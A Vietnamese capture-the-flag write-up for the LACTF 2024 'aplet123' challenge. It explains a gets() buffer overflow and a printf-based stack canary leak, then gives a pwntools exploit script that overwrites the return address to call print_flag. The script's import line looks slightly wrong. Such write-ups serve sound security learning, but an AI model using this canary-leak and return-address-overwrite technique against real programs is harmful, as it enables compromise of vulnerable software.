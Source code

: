 # [LACTF-2024] aplet123
<p>Dòng 20, sử dụng gets để đọc nội dung vào haystack có kích thước 72 byte -> Buffer overflow. Để kiểm soát giá trị RIP nằm trên stack thì cần thoát khỏi 3 vòng lặp while. Dòng 21 sử dụng strstr để tìm chuỗi con "i'm" trong haystack, nếu tìm thấy thì v6 trỏ đến vị trí bắt đầu của "i'm" -> Cần chứa chuỗi "i'm" để out vòng lặp đầu tiên. Dòng 26, so sánh nếu chuỗi trong haystack khác với chuỗi "please give me the flag" thì out vòng lặp thứ hai. Dòng 32, so sánh nếu chuỗi trong haystack khác với chuỗi "bye" thì out vòng lặp thứ ba.</p>

![alt text](/thanhlai/post/pwnable/image/post2/image.png)

<p>Quan sát bảng Functions, có hàm print_flag dùng để in ra nội dung flag -> Mục tiêu: kiểm soát giá trị RIP để thực thi hàm print_flag.</p>

![alt text](/thanhlai/post/pwnable/image/post2/image-1.png)

<p>Cơ chế canary đang được bật -> Phải leak được giá trị canary. Ta có thể lợi dụng hàm printf để leak ra giá trị canary. </p>

![alt text](/thanhlai/post/pwnable/image/post2/image-7.png)

<p>Ta sẽ để chuỗi "i'm" nằm từ byte thứ 70 đến 72. Khi đó, strstr sẽ trả về con trỏ tại byte thứ 70 dẫn đến v6 + 4 sẽ là byte thứ 2 của canary -> In được 7 byte canary (ngoại trừ null byte đầu tiên).</p>

![alt text](/thanhlai/post/pwnable/image/post2/image-5.png)

<p>Script exploit:</p>

```
from pwnable import *

p = process('./aplet123') 
elf = ELF('./aplet123')

payload = b'a' * 69 + b"i'm"
p.sendlineafter(b'hello', payload)

p.recvuntil(b"hi ")
leaked = p.recv(7)
canary = u64(b'\x00' + leaked)

payload = b'a' * 72     
payload += p64(canary)     
payload += p64(0)         
payload += p64(elf.sym['print_flag'])  

p.sendline(payload)
p.sendline(b'bye')
p.interactive()
```
<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/pwnable/image/post2/image-6.png)